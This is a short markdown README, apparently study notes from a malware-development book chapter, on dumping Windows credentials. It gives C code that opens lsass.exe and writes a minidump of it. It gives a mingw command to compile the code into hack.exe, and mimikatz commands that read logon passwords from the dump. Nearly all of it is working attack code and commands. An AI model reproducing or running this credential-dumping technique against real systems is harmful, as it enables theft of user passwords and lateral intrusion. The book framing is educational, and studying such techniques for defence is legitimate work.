




# Compil the code in Kali
But before compiling the code... <br>
### Modify the path in `hack.c`
Change the `<YOUR_USER_NAMW>` to yours. <br>
```c
// create minidump of lsass.exe
BOOL generateMiniDump() {
  bool dumpSuccess = FALSE;
  int processID = locateTargetProcess("lsass.exe");
  HANDLE processHandle = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, processID);
  HANDLE outputHandle = CreateFile((LPCTSTR)"C:\\Users\\<YOUR_USER_NAME>\\AppData\\Local\\Temp\\lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (processHandle && outputHandle != INVALID_HANDLE_VALUE) {
    dumpSuccess = MiniDumpWriteDump(processHandle, processID, outputHandle, (MINIDUMP_TYPE)0x00000002, NULL, NULL, NULL);
    printf(dumpSuccess ? "successfully dumped to lsass.dmp :)\n" : "failed to dump :(\n");
  } 
  return dumpSuccess; 
}

```


### Then it's good to go. 
Let's compile the code. <br>
```
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -ldbghelp
``` 
 <br>

### Load the dump file `lsass.dmp`
```
.\mimikatz.exe
sekurlsa::minidump C:\Users\<YOUR_USER_NAME>\AppData\Local\Temp\lsass.dmp
sekurlsa::logonpasswords
```
 <br>
 <br>
 <br>

---
# References
- Book - [Malware Development for Ethical Hackers: Learn how to develop various types of malware to strengthen cybersecurity](https://www.packtpub.com/en-us/product/malware-development-for-ethical-hackers-9781801810173) By
Zhassulan Zhussupov, 2024
- [Source code - hack.c](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers/blob/main/chapter04/02-lsass-dump/hack.c)